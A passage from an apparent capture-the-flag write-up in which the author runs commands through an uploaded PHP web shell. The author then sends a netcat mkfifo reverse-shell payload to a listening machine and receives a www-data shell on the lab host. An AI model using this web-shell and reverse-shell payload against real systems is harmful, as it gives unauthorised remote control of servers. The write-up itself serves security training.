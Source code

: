 ```none
http://10.10.10.28/uploads/shell.php?cmd=whoami
```

Success!

![Command execution](screenshots/80_command_execution.png)

The easiest way to mess with the request and get a reverse shell is with Burp - so intercept the request. I tried a bash reverse shell with no luck - but the netcat reverse shell worked well. As usual, checked that `nc` was available by using `cmd=which+nc`. The reverse shellcode I used is documented below.

```none
GET /uploads/shell.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 9001 >/tmp/f HTTP/1.1
```

Make sure to URL encode! Ctrl + U does the trick after highlighting the payload. With a netcat listener ready on my machine - got a callback and the user flag.

```none
└─$ nc -lvnp 9001                                  
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.28] 46312
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -lisa /home
total 12
393217 4 drwxr-xr-x  3 root   root   4096 Jan 23  2020 .
     2 4 drwxr-xr-x 24 root   root   4096 Jan 27  2020 ..
525971 4 drwxr-xr-x  5 robert robert 4096 Feb 25  2020 robert
$ wc -c /home/robert/user.txt
33 /home/robert/user.txt
```
